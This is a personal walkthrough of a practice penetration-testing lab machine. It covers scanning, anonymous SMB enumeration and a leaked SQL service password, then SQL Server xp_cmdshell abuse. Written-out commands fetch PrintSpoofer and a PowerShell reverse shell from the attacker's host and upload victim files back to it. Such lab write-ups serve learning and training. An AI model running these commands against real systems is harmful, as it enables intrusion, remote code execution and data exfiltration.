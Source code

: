 ==Target ip== 10.129.95.187

# 1. Nmap: 
-> I always want to start here to see what ports are open and what services are running.

Lets start with a basic scan and see what we can find:
`sudo nmap -sV -sC 10.129.95.187 -oN nmap.basic`

When that scan is done I want to do a deeper scan and run that while I do other tasks.

`sudo nmap -p- -sV -sC --script=default,vuln,exploit -T4 -oN nmap.full 10.129.95.187`

==Result of basic scan==

![[Pasted image 20250518173247.png]]

-> ==Thinking==: Ok there is a lot here
1. It's obviously a Windows machine
2. SMB is running (something we can look into)
3. 2017 SQL Server
4. httpd 2.0 running. I don't know what SSDP/UPnP is, but we can research it.

# Let's try enum4linux
`enum4linux -a 10.129.95.187` -> does **all** simple enumeration

==findings==:  

[+] Server 10.129.95.187 allows sessions using username '', password '' <- Anonymous sessions over SMB

Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none <- Vaild usernames

# Try to connect to an smbshare without creds
`smbclient -L \\10.129.95.187\\ -N`

==Findings==: 
1. This lists out a non default share called "backups", let's check that out. <- We do not have access to ADMIN$
	- `smbclient //10.129.95.187/backups -N`
	- This shows a file that we can get.
![[Pasted image 20250518174844.png]]

==Very small sorry== There is a username and password in this file!
And This is the file it appears to be XML. I am not totally sure what to do with that but I know XXE is a think, time for some research. 

ID = ARCHETYPE\sql_svc
Password = M3g4c0rp123

==What this file is==: this is **XML**, specifically a **DTS (Data Transformation Services) configuration file** used by SQL Server Integration Services (SSIS).

# Going to 10.129.95.187:5985
Gives a 404. I am not sure why, maybe we can check on this later.

### The creds work for SMB, but not for the admin share.

# Lets use impacket `mssqlclient.py` to try the creds on the sql server:

Impacket location on my machine: `/usr/share/doc/python3-impacket/examples/`

==Command== 
`python3 /usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc@10.129.95.187 -windows-auth

*Login with password*

Tried these commands: 
"
SELECT SYSTEM_USER;
EXEC xp_cmdshell 'whoami';
"
But xp_cmdshell is not enabled. ==But we can enable xp cmdshell because we have privs!==

==Listing privileges==
![[Pasted image 20250518181401.png]]

==Limited privileges for Sql_svc. It is database admin but not OS-level admin==  What we need to do is upload a tool that can check for privilege escalation.

BUT -> SeImpersonatePrivilege allows for token impersonation, so we can try to upload a tool and take advantage of that.

**What is token impersonation?**: A technique where a lower-privileged user **impersonates a higher-privileged user’s security token** to perform actions they normally wouldn't be allowed to — like becoming `SYSTEM`.

### I need to download printspoofer and cross-compile it with mingw-w64

**Connect to the smbshare:** `smbclient //10.129.95.187/backups -U 'ARCHETYPE\sql_svc'`

==I cannot upload printspoofer on there, I need to find another way==

==Idea==: Maybe I can host the file on a python server and reach out with the database?

1. `python -m http.server 80` <- in the printspoofer directory
2. What is my ip? `ip a` -> look for tun0 (10.10.16.54)
3. *Log in to sql server*
4. `EXEC xp_cmdshell 'certutil -urlcache -split -f http://10.10.16.54/PrintSpoofer.exe C:\Users\Public\PrintSpoofer.exe';` 
     <- Livin off the land!
 5. Verify its location `EXEC xp_cmdshell 'dir C:\Users\Public\PrintSpoofer.exe`
 6. Run it `EXEC xp_cmdshell 'C:\Users\Public\PrintSpoofer.exe -i -c cmd.exe';` ==The command did not work==
![[Pasted image 20250518220744.png]]

-> What now? 
	1. Maybe the print service is not running? or
	2. The machine is patched, we'll have to find another way (==I think getting winpeas on the machine and running it would be good!==)
	3. Got a reverse shell from here => https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3#:~:text=Got%20stderr%20working%20with%20this%20modification%3A
	4. Setup a Python server and ran this command to fetch the reverse shell: `EXEC xp_cmdshell "powershell -Command IEX (New-Object Net.WebClient).DownloadString('http://10.10.16.54/revshell2.ps1')";`
	5. Run winpeas
	6. ==The user flag is in the sql_svc Desktop==

# How to upload a file from the victim machine to the attacker: 
*on the victim machine with python server on the attacker machine*
`powershell -Command "(New-Object Net.WebClient).UploadFile('http://10.10.16.54/upload', 'C:\Users\Public\winpeas_output.txt')"`

